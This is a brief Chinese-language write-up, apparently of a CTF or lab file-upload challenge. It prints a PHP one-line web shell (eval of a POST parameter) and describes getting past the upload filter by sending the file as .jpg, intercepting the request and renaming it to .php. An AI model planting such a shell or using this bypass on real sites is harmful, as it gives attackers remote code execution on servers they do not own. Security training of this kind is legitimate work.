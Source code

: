 ![Pzs8hV.png](img/efc9f06276ad211082fb414d36e66ccc.png)

很明显文件上传，试着上传已经写好的PHP一句话木马

```
<?php eval($_POST['a']);?>
```

然后改为jpg格式上传抓包，并改为php后缀就可以成功上传。

![PzsBA1.png](img/662e7547f478733118abd648ca1459d7.png)

因为我之前已经成功上传过了1.php文件，显示已存在，如果是第一次上传就会显示路径：upload/1.php

![PzsLuQ.png](img/29797eb61133ab02d784f5c995abc7ec.png)
